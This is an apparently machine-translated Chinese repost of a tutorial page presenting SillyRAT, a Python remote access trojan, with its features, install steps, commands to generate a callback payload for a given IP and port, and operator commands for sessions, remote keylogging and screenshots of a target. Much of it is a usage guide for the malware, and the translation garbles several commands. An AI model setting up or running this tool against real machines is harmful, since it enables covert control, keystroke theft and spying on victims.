



# SillyRAT:一种跨平台多功能(Windows/Linux/Mac) RAT

> 原文：<https://kalilinuxtutorials.com/sillyrat/>

**SillyRAT** 是纯 Python 写的跨平台 RAT。RAT 接受带有参数的命令，或者作为接受连接的服务器，或者作为与服务器建立连接的客户端/目标。**生成**命令使用模块 **pyinstaller** 来编译实际的有效载荷代码。因此，为了为您各自的平台生成有效载荷文件，您需要在生成文件时在那个平台上。此外，您还可以直接获取源文件。

**特色**

*   用于命令执行的内置外壳
*   转储系统信息，包括驱动器和内存
*   截图模块。捕获客户端屏幕截图。
*   连接循环(将在连接到服务器时继续)
*   目前，它使用 BASE64 编码。
*   纯 Python
*   跨平台。(在 Linux 上测试。接受错误)
*   包含用于测试的源文件
*   python3

****未来****

 ***   秘密执行
*   加密
*   存储上次尝试的会话
*   当客户端连接时推送通知

装置

该工具在装有 **Python 3.8** 的 **Parrot OS** 上进行测试。按照以下步骤进行安装:

**$ git 克隆 https://github.com/hash3liZer/SillyRAT.git
$ CD SillyRAT/
$ pip 3 install-r requirements . txt**

**文档**

**生成有效载荷**

您可以通过两种方式获取有效负载文件:

*   源文件
*   编译文件

源文件在所有平台上都保持不变。所以，你可以在一个平台上生成它，在另一个平台上使用它。获取源文件:

**$ python 3 server . py generate–地址 134 . 276 . 92 . 1–端口 2999–output/tmp/payload . py–source**

编译版本必须在各自的平台上生成。例如，您不能生成。Linux 上的 exe 文件。你特别需要在 Windows 上。该工具仍在测试中。所以，各种错误都是可以接受的。不过，一定要打开一个问题。为 Linux 生成编译版本:

**$ python 3 server . py generate–地址 134 . 276 . 92 . 1–端口 2999–output/tmp/filer**

在上述命令中替换您的 IP 地址和端口。

**运行服务器**

服务器必须在 Linux 上执行。你可以买一个 VPS 或者云服务器来连接。根据记录，服务器不会存储上次运行后的任何会话。因此，一旦服务器应用程序终止，所有的进程都将丢失。运行您的服务器:

**$ python 3 silly rat . py bind–地址 0 . 0 . 0 . 0–端口 2999**

**连接**

所有连接将在**会话**命令下列出:

**$ sessions**

您可以使用 **connect** 命令连接到您的目标会话，并启动其中一个可用命令:

**$连接 ID
$键盘记录器在
$键盘记录器转储
$截图**

**帮助**

获取可用命令的列表:

**$ help**

特定命令的帮助:

**$ help 命令**

[**Download**](https://github.com/hash3liZer/SillyRAT)**